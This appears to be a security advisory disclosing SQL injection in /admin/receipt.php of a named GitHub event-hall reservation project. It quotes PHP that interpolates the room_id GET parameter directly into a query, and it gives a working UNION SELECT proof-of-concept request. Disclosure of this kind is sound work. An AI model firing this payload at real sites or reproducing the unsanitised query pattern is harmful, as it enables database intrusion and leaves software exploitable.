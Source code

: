 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection receipt.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/receipt.php

## Code
```php
    if(isset($_GET['room_id'])){
        $room_id1=$_GET['room_id'];
        $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
        $res1=mysqli_query($conn,$sql1);
        if($res1==True){
            while($row=mysqli_fetch_assoc($res1)){
                $room_name=$row['room_name'];
                $capacity=$row['capacity'];
                $location=$row['location'];
                $description=$row['description'];
                $img_name=$row['img_name'];
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/receipt.php?id=1&room_id='+union+select+1,2,3,4,5,6,version()+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/7ac41c23-7c3f-4f9f-99ac-0912b298ca1e)

